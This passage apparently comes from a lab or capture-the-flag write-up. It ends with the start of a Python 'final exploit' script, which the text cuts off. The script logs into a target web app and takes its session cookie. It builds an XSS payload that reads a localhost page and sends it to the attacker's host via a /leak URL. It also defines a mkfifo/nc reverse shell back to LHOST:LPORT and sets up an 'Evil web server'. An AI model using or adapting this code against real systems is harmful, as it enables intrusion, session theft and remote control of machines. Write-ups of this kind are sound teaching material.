 Finally, we call the `listener` function to start a listener for the reverse shell payload. We provide it with the privilege escalation commands which it will automatically execute before becoming interactive. In addition, we provide it with the `rsLock` lock which the function will release when it has started listening on the reverse shell IP and port. At this point, we are done! The final code can be found in the next section.

# Final Code
The final exploit is shown below. Note that that it has been commented to make it easier to read and understand. 

{% highlight python linenos %}
#!/usr/bin/python3
import argparse, base64, click, logging, contextlib, flask, ipaddress, re, requests, socket, sys, threading, time

#Parse command line arguments
parser = argparse.ArgumentParser()
parser.add_argument('RHOST',help='Remote host')
parser.add_argument('RPORT',help='Remote port')
parser.add_argument('LHOST',help='Local IP address for reverse shell payload')
parser.add_argument('LPORT',help='Local port for reverse shell payload')
args = parser.parse_args()

LHOST = args.LHOST
LPORT = args.LPORT
RHOST = args.RHOST
RPORT = args.RPORT
URLBASE = "http://"+RHOST+":"+RPORT+"/"

#Initialize thread locks
wsLock = threading.Lock()
wsLock.acquire()
rsLock = threading.Lock()
rsLock.acquire()

#Send a login request
data = {"username":"RickA","password":"nevergonnagiveyouup"}
headers = {"User-Agent":"Linux"}
r = requests.post(URLBASE+"login", data=data, headers=headers, allow_redirects=False)
cookie = r.headers['set-cookie']

#Get the session cookie from the response
m = re.search("connect\.sid=(.*?);",cookie)
cookieName = "connect.sid"
cookieValue = m.group(1)

#Send a request for the /agent page to get a booking ID
headers['Cookie'] = cookieName+"="+cookieValue
r = requests.get(URLBASE+"agent", headers=headers)
m = re.search("""href=\"/vac/([0-9,a-z,\-]*?)\">""",r.text)
bookingID = m.group(1)

#Initialize web server files
XJS = '''req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/''' + bookingID + '''",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://''' + LHOST + '''/leak?x="+btoa(req1.responseText),false);
req2.send();
'''

RS = '''#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ''' + LHOST + " " + LPORT + " >/tmp/f"

#Configure a flask web server
app = flask.Flask("Evil web server")
